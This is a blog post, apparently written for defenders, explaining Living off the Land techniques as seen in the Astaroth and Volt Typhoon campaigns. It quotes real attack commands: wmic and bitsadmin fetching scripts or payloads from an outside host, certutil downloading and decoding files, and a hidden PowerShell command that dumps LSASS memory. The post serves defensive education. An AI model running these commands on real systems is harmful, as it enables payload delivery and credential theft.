


# LotL techniques with MDE detection - Part 1 
Hello everyone,

For a long time, I have seen Living off the Land (LotL) techniques discussed in Microsoft Security blogs, and recently I have been learning various attack techniques, especially those related to LotL. That's why I believe this is a great time to share my learning and detection insights in MDE through this blog.

### What is living off the land ?

[Microsoft Security blog](https://www.microsoft.com/en-us/security/blog/2018/09/27/out-of-sight-but-not-invisible-defeating-fileless-malware-with-behavior-monitoring-amsi-and-next-gen-av/) explains that “living off the land”, as malware only uses resources already available in the operating system.

I will show you how LotL techniques were used by attackers, based on past Microsoft Security blogs.


### [Astaroth “living-off-the-land”](https://www.microsoft.com/en-us/security/blog/2019/07/08/dismantling-a-fileless-campaign-microsoft-defender-atp-next-gen-protection-exposes-astaroth-attack/)
This is a somewhat older blog, but I love it because it includes some Windows LotL-related attacks in the attack flow.

1. LNK
1. WMI
2. Bitsadmin
3. Certutil

**LNK** : One common pattern is that an attacker creates a LNK file with a target path that executes a PowerShell command to download and run a malicious script from the internet.

**WMI** : Query the operating system (OS) for specific properties and then formats the output using a custom format file located at a URL.

```cmd
Wmic.exe os get ved5hit39, 25hit8, numberofusers /format:"https://storage.googleapis.com/ultramaker/09/v.txt"

Wmic.exe os get QMUTSQPK, JUXKBVOK, LNFTZKMH, freephyscialmemory /format:"https://storage.googleapis.com/ultramaker/08/vv.txt" 
```

**Bitsadmin / Certutil** : The commands bitsadmin and certutil can be exploited in cyberattacks, particularly in the context of malware delivery and command-and-control (C2) activities, such as downloading and uploading files.


```cmd
bitsadmin.exe /transfer msd5 /priority foreground https://storage.googleapis.com/ultramaker/x/ 09/falcvonxrenwb.jpg.zip.log? %PUBLIC%\Libraries\temporary\falxconxrenwb.jpg.z
```

```cmd
certutil.exe -urlcache -f "<URL/Payload>" "%Temp%\demo.exe"

certutil.exe -decode %PUBLIC%\Libraries\temporary\falxconxrenwb.jpg.z %PUBLIC%\Libraries\temporary\falxconxrenwb.~
```


> Astaroth “living-off-the-land” attack chain showing multiple legitimate tools abused
---

### [Volt Typhoon](https://www.microsoft.com/en-us/security/blog/2023/05/24/volt-typhoon-targets-us-critical-infrastructure-with-living-off-the-land-techniques/)

1. wmi
2. LSASS Process dumping (LotL)
   - cmd.exe / powershell.exe
   - rundll32.exe
   - base64 encode 

```powershell
cmd.exe /c powershell -exec bypass -W hidden -nop -E <Base64: rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump PID lsass.dmp full>
```


>  Volt Typhoon attack diagram
---
- Mshta
- Regsvr32
- Scheduled Tasks

